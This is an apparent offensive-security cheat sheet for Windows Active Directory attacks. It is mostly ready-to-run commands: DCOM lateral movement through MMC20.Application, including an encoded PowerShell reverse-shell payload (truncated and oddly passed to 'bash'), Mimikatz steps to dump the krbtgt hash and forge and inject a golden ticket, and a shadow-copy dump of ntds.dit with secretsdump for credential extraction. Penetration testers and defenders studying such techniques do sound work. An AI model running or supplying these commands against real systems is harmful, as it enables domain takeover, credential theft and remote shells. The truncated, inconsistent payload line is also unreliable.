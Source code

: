 ## DCOM

```powershell
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.150.8"))

$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")

$dcom.Document.ActiveView.ExecuteShellCommand("bash",$null,"bash -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

## Golden Ticket

1. Get the krbtgt hash

```powershell
.\mimikatz.exe
privilege::debug
# below are some ways
lsadump::lsa /inject /name:krbtgt
lsadump::lsa /patch
lsadump::dcsync /user:krbtgt

kerberos::purge # removes any exisiting tickets

# sample command
kerberos::golden /user:sathvik /domain:evilcorp.com /sid:S-1-5-21-510558963-1698214355-4094250843 /krbtgt:4b4412bbe7b3a88f5b0537ac0d2bf296 /ticket:golden

# Saved with name "golden" here, there are other options to check as well
```

1. Obtaining access!

```bash
# no need for highest privileges
mimikatz.exe 
kerberos::ptt golden
# we're accessing cmd
misc::cmd 
```

## Shadow Copies

```bash
vshadow.exe -nw -p C:
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
reg.exe save hklm\system c:\system.bak
impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
```
---

